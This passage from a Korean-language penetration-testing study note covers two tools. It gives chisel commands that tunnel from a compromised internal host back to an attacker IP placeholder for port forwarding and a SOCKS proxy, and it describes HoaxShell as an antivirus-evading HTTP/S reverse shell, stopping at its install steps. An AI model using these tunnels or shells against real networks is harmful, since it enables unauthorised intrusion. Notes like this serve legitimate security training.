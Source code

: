 내부 시스템에서 클라이언트 실행
```sh
chisel client 공격자_IP:8080 R:socks
```

이후 칼리에서 `proxychains` 같은 툴을 이용해 내부망 접속 및 탐색 가능

### 요약 명령어

| 역할 | 명령어 예시 | 설명 |
|-------|--------------|-------|
| 서버 실행 | `sudo chisel server -p 8080 --reverse` | 리버스 터널링용 서버 대기 |
| 클라이언트 실행 | `chisel client 공격자_IP:8080 R:3389:127.0.0.1:3389` | 침투지 터널 연결 및 포트포워딩 |
| SOCKS5 프록시 서버 실행 | `sudo chisel server -p 8080 --reverse --socks5` | 내부망 탐색용 프록시 터널링 |
| SOCKS5 클라이언트 연결 | `chisel client 공격자_IP:8080 R:socks` | SOCKS 프록시 연결 요청 |


## hoaxshell
### 개요
HoaxShell은 HTTP/S 트래픽을 활용해 윈도우 대상 기기에서 탐지 회피 가능한 리버스 셸 세션을 생성하는 강력한 침투 테스트용 도구이다. 다양한 페이로드 옵션과 외부 터널링 서비스 연동으로 유연하게 사용 가능하며, 네트워크 방화벽 우회 및 내부망 접근 등에 특히 효과적이다.

- PowerShell 기반 페이로드를 자동으로 생성하고 관리
- HTTP/HTTPS 트래픽에 섞여 통신하여 보안 솔루션 탐지를 우회하도록 설계
- 실제 PTY(터미널) 세션과 달리 쉘 세션을 가장하는 방식으로 실행
- AV 탐지를 피하기 위해 생성 페이로드의 세션 ID, URL 경로, HTTP 헤더 이름을 매 실행마다 무작위로 변경
- 페이로드 암호화 및 난독화 가능
- Kali 및 윈도우 환경에서 활용하는 침투 테스트용 툴

### 주요 특징
- HTTP/S 리버스 셸: 표준 웹 트래픽처럼 포트 80/443을 사용하는 터널 세션을 생성
- 페이로드 자동 생성: 권장하는 PowerShell 스크립트를 자동 생성해 대상에 주입
- 다양한 페이로드 옵션: 기본 Invoke-Expression 방식, 파일 기반 실행 방식, HTTPS 암호화, 인증 헤더 커스터마이징 가능
- 세션 복구 기능: 세션 ID 유지 및 복구 기능 지원
- Constraint Language 지원: 제한된 PowerShell 환경에서도 동작 가능하게 페이로드 생성
- Ngrok, LocalTunnel 등 외부 터널링 서비스 연동 가능
- 터널링을 통한 네트워크 우회용 도구로 활용 가능

### 설치
github repo : https://github.com/t3l3machus/hoaxshell
```sh
┌──(kali㉿kali)-[~/Desktop/PNT/hoaxshell/
└─$ git clone https://github.com/t3l3machus/hoaxshell
└─$ cd ./hoaxshell

┌──(kali㉿kali)-[~/Desktop/PNT/hoaxshell/hoaxshell]
└─$ python3 -m venv ~/venv
┌──(kali㉿kali)-[~/Desktop/PNT/hoaxshell/hoaxshell]
└─$ source ~/venv/bin/activate

┌──(venv)─(kali㉿kali)-[~/Desktop/PNT/hoaxshell/hoaxshell]
└─$ pip install -r requirements.txt  
┌──(venv)─(kali㉿kali)-[~/Desktop/PNT/hoaxshell/hoaxshell]
└─$ chmod +x hoaxshell.py
```
